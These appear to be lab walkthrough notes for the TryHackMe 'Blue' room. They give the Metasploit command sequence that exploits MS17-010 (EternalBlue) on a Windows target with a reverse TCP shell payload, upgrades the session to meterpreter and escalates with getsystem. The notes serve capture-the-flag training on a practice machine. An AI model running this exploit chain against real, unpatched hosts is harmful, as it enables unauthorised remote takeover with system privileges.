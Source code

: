 [TryHackMe Blue room](https://tryhackme.com/r/room/blue) | [YouTube Walkthrough](https://www.youtube.com/watch?v=32W6Y8fVFzg)


## setup

1. [Install nmap](https://github.com/TurboLabIt/cybersec/blob/main/notes/000-nmap.md)
2. [Install metasploit](https://github.com/TurboLabIt/cybersec/blob/main/script/metasploit/install.sh)


## recon

[nmap scan, nmap vuln](https://github.com/TurboLabIt/cybersec/blob/main/notes/000-nmap.md)


## exploit info

`msfupdate && msfconsole`

```shell
search ms17-010
info exploit/windows/smb/ms17_010_eternalblue
```


## exploit

```shell
use exploit/windows/smb/ms17_010_eternalblue
set LHOST <my-ip>
set RHOSTS <target-ip>
set payload windows/x64/shell/reverse_tcp
exploit
```


## shell upgrade

```shell
CTRL+Z

use post/multi/manage/shell_to_meterpreter
sessions -l
set SESSION 1
exploit

sessions -l
sessions -i 2

sysinfo
getsystem 
shell
whoami
```

